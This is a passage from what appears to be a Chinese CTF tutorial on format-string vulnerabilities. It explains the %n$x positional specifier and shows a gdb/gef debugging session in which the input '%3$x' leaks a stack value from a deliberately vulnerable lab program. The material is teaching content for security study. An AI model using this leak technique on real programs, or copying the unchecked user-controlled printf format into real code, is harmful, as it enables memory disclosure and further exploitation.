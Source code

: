 ```text
%n$x
```

利用如下的字符串，我们就可以获取到对应的第n+1个参数的数值。为什么这里要说是对应第n+1个参数呢？这是因为格式化参数里面的n指的是该格式化字符串对应的第n个输出参数，那相对于输出函数来说，就是第n+1个参数了。

这里我们再次以gdb调试一下。

```shell
➜  leakmemory git:(master) ✗ gdb leakmemory
gef➤  b printf
Breakpoint 1 at 0x8048330
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
%3$x

Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
28	printf.c: 没有那个文件或目录.

─────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
─────────────────────────────────────────────────────[ stack ]────
['0xffffccec', 'l8']
8
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20	 ← $esp
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
0xffffccf4│+0x08: 0x00000001
0xffffccf8│+0x0c: 0x22222222
0xffffccfc│+0x10: 0xffffffff
0xffffcd00│+0x14: 0xffffcd10  →  "%3$x"
0xffffcd04│+0x18: 0xffffcd10  →  "%3$x"
0xffffcd08│+0x1c: 0x000000c2
gef➤  c
Continuing.
00000001.22222222.ffffffff.%3$x

Breakpoint 1, __printf (format=0xffffcd10 "%3$x") at printf.c:28
28	in printf.c
─────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
─────────────────────────────────────────────────────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  "%3$x"
0xffffcd04│+0x08: 0xffffcd10  →  "%3$x"
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd10│+0x14: "%3$x"	 ← $eax
0xffffcd14│+0x18: 0xffffce00  →  0x00000001
```